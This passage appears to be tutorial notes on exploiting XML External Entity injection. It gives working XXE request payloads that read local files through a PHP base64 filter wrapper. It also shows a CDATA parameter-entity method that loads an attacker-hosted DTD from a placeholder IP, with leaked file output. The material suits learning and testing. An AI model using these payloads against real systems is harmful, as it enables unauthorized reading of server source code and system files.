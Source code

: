 ``` HTTP
xxe:x:1000:1000:xxe:/home/xxe:/bin/bash
 for further instructions.
[SNIP]....
```
**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.
### Read file contains some of XML's special characters
#### Read PHP files using PHP wrapper
Encode PHP source files, such that they would not break the XML format when referenced.
- **Request**
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM 
"php://filter/convert.base64-encode/resource=index.php">
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
* **Response**
``` HTTP
HTTP/1.1 200 OK

Check your email PCFET0NUWVBFIGh0bWw+DQo8aHRtbCBsYW5nPSJlbiI+DQoNCjxoZWFkPg0KCTx0aXRsZT5FbnRpdHkg
....
for further instructions.
[SNIP]....
```
#### Advanced Exfiltration with CDATA
To output data that does not conform to the XML format:
- Wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). and utilize XML Parameter Entities. 
- `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD.
- What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined.

- Attacker host
Create `xxe.dtd` with the content:
``` dtd
<!ENTITY joined "%begin;%file;%end;">
```
Start a python server:
``` bash
python3 -m http.server 8000
```
* Request to the target
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>
```